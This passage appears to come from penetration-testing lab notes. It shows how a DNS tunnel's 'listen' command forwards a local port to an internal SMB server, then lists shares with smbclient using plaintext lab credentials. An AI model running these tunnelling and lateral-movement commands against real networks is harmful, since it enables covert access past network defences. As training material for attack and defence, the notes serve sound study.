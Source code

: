 The `listen` command sets up a local port on the attacker’s system, forwarding TCP traffic through the DNS tunnel to a specified remote host and port, similar to SSH's `-L` option.

```bash
command (pgdatabase01) 1> listen --help
Error: The user requested help
Listens on a local port and sends the connection out the other side (like ssh
	-L). Usage: listen [<lhost>:]<lport> <rhost>:<rport>
  --help, -h:   Show this message
```
{% endtab %}

{% tab title="4. Port Forward" %}
For example, forwarding local port `4455` to port `445` (SMB) on an internal server allows the attacker to access SMB shares through the tunnel. Standard SMB commands, such as `smbclient`, can then connect through the forwarded port, albeit with slower response times due to the overhead of encapsulating TCP traffic inside DNS queries and responses transported over UDP.

```bash
command (pgdatabase01) 1> listen 127.0.0.1:4455 172.16.2.11:445
Listening on 127.0.0.1:4455, sending connections to 172.16.2.11:445
```

{% code overflow="wrap" %}
```bash
# from FELINEAUTORITY
kali@felineauthority:~$ smbclient -p 4455 -L //127.0.0.1 -U hr_admin --password=Welcome1234

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
    	scripts         Disk
        Users           Disk         
```
{% endcode %}
{% endtab %}
{% endtabs %}
